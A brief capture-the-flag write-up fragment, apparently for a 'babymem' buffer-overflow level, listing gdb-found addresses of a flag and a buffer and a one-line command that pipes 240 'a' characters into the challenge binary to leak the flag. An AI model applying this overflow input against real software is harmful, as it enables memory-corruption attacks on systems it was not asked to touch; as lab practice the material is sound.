 With `gdb`, you can get the information like this in practice mode.
```
flag: 0x7ffc74427ab0
buffer: 0x7ffc744279c0
```

Use the following command to get the flag.
```
(echo "240"; python -c "print('a' * 240)") | /babymem_level13_testing2
```
